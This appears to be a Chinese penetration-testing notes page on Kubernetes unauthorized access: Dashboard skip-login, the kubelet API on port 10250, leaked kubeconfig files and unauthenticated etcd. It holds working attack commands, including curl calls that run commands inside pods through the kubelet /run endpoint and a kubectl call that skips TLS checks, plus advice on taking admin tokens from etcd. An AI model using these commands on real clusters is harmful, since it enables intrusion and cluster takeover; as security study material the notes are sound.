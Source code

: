     默认情况下 Dashboard 需要登录认证，但是，如果用户在 Dashboard 的启动参数中添加了 `--enable-skip-login` 选项，那么攻击者就能够直接点击 Dashboard 界面的 “跳过” 按钮，无需登录便可直接进入 Dashboard。关于如何设置 `--enable-skip-login` ，在 v1.10.1 前，实则是无需配置的，通过在 Kubernetes Dashboard 的 Web 登录界面点击 “跳过” 按钮即可访问，也是因为这个原因，安全意识较为薄弱的用户直接将早期版本以默认的配置方式部署在互联网上使得攻击者无需花费丝毫力气就可以轻易浏览到 Kubernetes 集群的运行状态，因而在 v1.10.1 版本后，开发团队增加了显式配置的功能，需要用户在相应部署的 yaml 文件中指定 `--enable-skip-login` 参数配置才能开启未授权访问。

**kubelet 未授权访问**
- 漏洞描述

    kubelet 是在 Node 上用于管理本机 Pod 的，kubectl 是用于管理集群的。kubectl 向集群下达指令，Node 上的 kubelet 收到指令后以此来管理本机 Pod。

    Kubelet 服务启动后会监听多个端口，用于接收 Kubernetes API Server 组件发送的请求
    - 10248 : Kubelet healthz 的服务端口，用于判断 Kubelet 组件的健康状态，已于 Kubernetes v1.16 版本后弃用，访问该端口默认需要认证授权
    - 10250 : Kubelet 的 HTTPS 服务，读写端口，提供 Kubernetes 基本资源运行状态， 访问该端口默认需要认证授权
    - 10255 : Kubelet 的 HTTP 服务，只读端口，提供只读形式的 Kubernetes 基本资源运行状态，该端口无需进行认证授权，默认为禁用
    - 4194 : cAdvisor 的 HTTP 服务端口，自 Kubernetes v1.10 版本开始，官方去除了 --cadvisor-port 参数配置，不再支持对 cAdvisor 的访问

    kubelet 对应的 API 端口默认在 10250，运行在集群中每台 Node 上，kubelet 的配置文件在 node 上的 `/var/lib/kubelet/config.yaml`

    配置文件中 authentication 选项用于设置 kubelet api 能否被匿名访问，authorization 选项用于设置 kubelet api 访问是否需要经过 Api server 进行授权, 如果把 authentication-anonymous-enabled 改为 true，authorization-mode 改为 AlwaysAllow，再使用命令 systemctl restart kubelet 重启 kubelet，那么就存在 kubelet 未授权访问

- POC | Payload | exp
    ```bash
    # 如果有 kubelet 未授权，可以用以下命令在 Pod 内执行命令

    curl https://node_ip:10250/pods
    curl -XPOST -k https://node_ip:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=command"

    /pods
    /runningpods
    /metrics
    /spec
    /stats
    /stats/container
    /logs
    /run/
    /exec/
    /attach/
    /portForward/
    /containerLogs/
    ```

- kubeconfig 泄露

    ```
    kubectl --kubeconfig=config --insecure-skip-tls-verify=true get pods --all-namespaces -o wide
    ```

**etcd 未授权**
- 漏洞描述

    etcd 是 k8s 集群中的数据库组件，默认监听在 2379 端口. 如果 2379 存在未授权，那么就可以通过 etcd 查询集群内管理员的 token，然后用这个 token 访问 api server 接管集群。
